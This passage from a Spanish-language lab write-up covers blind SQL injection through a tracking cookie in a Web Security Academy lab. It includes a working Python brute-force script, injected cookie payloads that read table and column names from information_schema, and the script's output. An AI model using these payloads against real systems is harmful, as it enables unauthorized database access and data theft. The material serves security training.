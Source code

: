 ```
    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 16):
            for character in characters:
                cookies = {
                    'TrackingId': "LNchxAn9oOJqOKHw' and (select substr(string_agg(table_name,', '),%d,1) from information_schema.tables where table_schema='public')='%s'-- - " % (
                    position, character),
                    'session': "U5B4rAdfDeA17C0bpxxIIgkGM6pmjjeX"
                }

                p1.status(cookies['TrackingId'])

                r = requests.get(url, cookies=cookies)

                if "Welcome back!" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` el `nombre` de las `tablas` del esquema `public`

```
# python sqli_conditional_response.py
[......\.] Fuerza bruta: BqARFKHGTXlkQv0f' and (select substr(string_agg(table_name,', '),15,1) from information_schema.tables where table_schema='public')='g'-- - 
[◥] Output: users,+tracking
```

Obtenemos el `número` de `caracteres` que tienen las `columnas` de la tabla `users`, el cual es de `25 caracteres`

```
Cookie: TrackingId=LNchxAn9oOJqOKHw'+and+length((select+string_agg(column_name,',+')+from+information_schema.columns+where+table_name='users'))=25--+-+; session=U5B4rAdfDeA17C0bpxxIIgkGM6pmjjeX
```

Modificamos el script para `obtener` el `nombre` de las `columnas` de la `tabla users`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a7d000e043dee26b4ab626a004200c4.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
```